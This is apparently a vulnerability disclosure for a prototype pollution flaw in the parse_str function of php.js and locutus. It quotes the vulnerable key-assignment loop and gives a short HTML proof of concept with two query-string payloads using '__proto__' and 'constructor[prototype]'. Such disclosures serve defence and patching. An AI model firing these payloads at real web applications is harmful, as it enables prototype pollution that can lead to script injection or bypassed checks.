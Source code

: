 ## php.js parse_str

URL:  
https://github.com/hirak/phpjs/blob/ead6d1a542a0ce0b3969e2c1ea42e9213d12214d/functions/strings/parse_str.js  
https://github.com/locutusjs/locutus/blob/e0a68222d482d43164e96ab96023b712d25680a6/src/php/strings/parse_str.js

### Vulnerable code fragment

https://github.com/hirak/phpjs/blob/ead6d1a542a0ce0b3969e2c1ea42e9213d12214d/functions/strings/parse_str.js#L91-L100

```js
function parse_str(str, array) {

  ...

  for (i = 0; i < sal; i++) {
    tmp = strArr[i].split('=');
    key = fixStr(tmp[0]);
    value = (tmp.length < 2) ? '' : fixStr(tmp[1]);

    ...
    
    if (key && key.charAt(0) !== '[') {

      ...

      for (j = 0, keysLen = keys.length; j < keysLen; j++) {
        key = keys[j].replace(/^['"]/, '')
          .replace(/['"]$/, '');
        lastIter = j !== keys.length - 1;
        lastObj = obj;
        if ((key !== '' && key !== ' ') || j === 0) {
          if (obj[key] === undef) {
            obj[key] = {};
          }
          obj = obj[key];
```

### PoC
```html
<script src="https://raw.githack.com/hirak/phpjs/master/functions/strings/parse_str.js"></script>
<script>
  parse_str(location.search.slice(1));
</script>
```

```
?__proto__[test]=test
?constructor[prototype][test]=test
```
